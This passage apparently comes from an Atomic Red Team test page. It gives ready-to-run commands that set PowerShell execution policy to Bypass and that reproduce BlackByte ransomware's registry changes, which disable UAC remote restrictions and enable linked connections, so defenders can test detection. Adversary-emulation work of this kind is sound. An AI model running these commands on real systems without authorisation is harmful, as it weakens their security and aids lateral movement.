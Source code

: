 



#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| default_execution_policy | Specify the default poweshell execution policy | String | Default|


#### Attack Commands: Run with `powershell`! 


```powershell
Set-ExecutionPolicy -ExecutionPolicy Bypass -Scope LocalMachine
```

#### Cleanup Commands:
```powershell
try { Set-ExecutionPolicy -ExecutionPolicy #{default_execution_policy} -Scope LocalMachine -Force } catch {}
```





<br/>
<br/>

## Atomic Test #7 - BlackByte Ransomware Registry Changes - CMD
This task recreates the steps taken by BlackByte ransomware before it worms to other machines.  See "Preparing to Worm" section: https://redcanary.com/blog/blackbyte-ransomware/
The steps are as follows:
<ol>
    <li>1. Elevate Local Privilege by disabling UAC Remote Restrictions</li>
    <li>2. Enable OS to share network connections between different privilege levels</li>
    <li>3. Enable long path values for file paths, names, and namespaces to ensure encryption of all file names and paths</li>
</ol>
The registry keys and their respective values will be created upon successful execution.

**Supported Platforms:** Windows


**auto_generated_guid:** 4f4e2f9f-6209-4fcf-9b15-3b7455706f5b






#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
cmd.exe /c reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /v LocalAccountTokenFilterPolicy /t REG_DWORD /d 1 /f
cmd.exe /c reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /v EnableLinkedConnections /t REG_DWORD /d 1 /f
cmd.exe /c reg add HKLM\SYSTEM\CurrentControlSet\Control\FileSystem /v LongPathsEnabled /t REG_DWORD /d 1 /f
```
